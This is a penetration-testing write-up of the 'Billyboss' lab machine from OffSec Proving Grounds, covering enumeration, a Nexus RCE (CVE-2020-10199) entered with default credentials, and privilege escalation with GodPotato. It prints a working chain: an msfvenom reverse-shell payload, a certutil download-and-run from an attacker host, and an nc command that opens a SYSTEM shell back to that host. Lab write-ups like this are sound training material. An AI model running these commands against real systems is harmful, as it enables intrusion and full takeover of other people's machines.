 # Billyboss

## Intro

Billyboss is a 'get to work' intermediate windows machine from offsec proving grounds.

## Enum  

Nmap scan of ports 0 - 15000.  

```
Host: 192.168.57.61 ()  Ports: 0/filtered/tcp//
21/open/tcp/ftp/Microsoft ftpd
80/open/tcp/http/Microsoft IIS httpd 10.0
135/open/tcp/msrpc/Microsoft Windows RPC
139/open/tcp/netbios-ssn/Microsoft Windows netbios-ssn
445/open/tcp/microsoft-ds?/
5040/open/tcp/unknown/
8081/open/tcp/http/Jetty 9.4.18.v20190429
```  

Nmap udp scan.  

```
137/netbios-ns
138/netbios-dgm
500/isakmp
1900/upnp
4500/nat-t-ike
5353/zeroconf
```  

Nmap stealth scan.  

```
21/ftp
80/http
135/msrpc
139/netbios-ssn
445/microsoft-ds
5040/unknown
8081/blackice-icecap
49664/
49665/
49666/
49667/
49668/
49669/
```

Enum smb services.  

`8081/tcp open  blackice-icecap`  

## UDP services.  

137 netbios-ns is a name service that supplies netbios names to the receiving machine.  
138 datagram exchange, non connection file sharing.  
500 is used by the Internet key exchange (IKE) that occurs during the establishment of secure VPN tunnels  
1900 Universal Plug N' Play (UPnP) devices to receive broadcasted messages from other UPnP devices  
4500 internet key exchange  
5353 zero-configuration protocol with dns-like commands.



## rpc  

Using rpcdump.py  

Protocols.  

```
MSDTC Connection Manager
EventLog Remoting Protocol 
Firewall and Advanced Security Protocol 
Remote Shutdown Protocol 
Security Account Manager (SAM) Remote Protocol 
Service Control Manager Remote Protocol
Task Scheduler Service Remoting Protocol
```  

Provider.  

```
BFE.DLL 
dhcpcsvc6.dll 
dhcpcsvc.dll 
FwRemoteSvr.dll 
IKEEXT.DLL 
iphlpsvc.dll 
MPSSVC.dll 
msdtcprx.dll 
nrpsrv.dll 
nsisvc.dll 
pcasvc.dll 
samsrv.dll 
schedsvc.dll 
services.exe 
srvsvc.dll 
ssdpsrv.dll 
sysmain.dll 
sysntfy.dll 
taskcomp.dll 
wbiosrvc.dll 
wevtsvc.dll 
wininit.exe 
winlogon.exe 
wscsvc.dll
```  

## http port 80  

This port has a service running on it called baGet, which is a lightweight nuGet server.  

## Nexus repository manager - port 8081  

Using the following username and password to authenticate.  

`nexus:nexus`  

Finding a rce python script on exploitDB with the following cve.  

`CVE-2020-10199`  

After testing the exploit with the ping command, which did work, I tried a powershell reverse shell which did not work. Looking at the error, I think it might be the parenthesis and brackets mangling. After trying the command in base 64 it still did not work. Trying a file upload.  

Creating a reverse shell exe.  

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.54 LPORT=21 -f exe > /home/kali/shell.exe`  

Getting the file from my local machine with the following command.  

`cmd.exe /c certutil.exe -f -urlcache -split http://192.168.49.54:8000/shell.exe c:/windows/temp/shell.exe`  

Executing the shell file with the following command, and getting a shell back.  

`cmd.exe /c c:/windows/temp/shell.exe`  

## PrivEsc  

Listing the users directory.  

```
Administrator
BaGet
nathan
```  

This build is vuln with GodPotato and seImpersonate token.  

`.\potato.exe -cmd 'c:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.167 80 -e cmd.exe'`

This would not run in windows temp folder only nathans folder, nc is used to keep the process from exiting.  

GodPotato can be found at.  

`https://github.com/BeichenDream/GodPotato/releases`
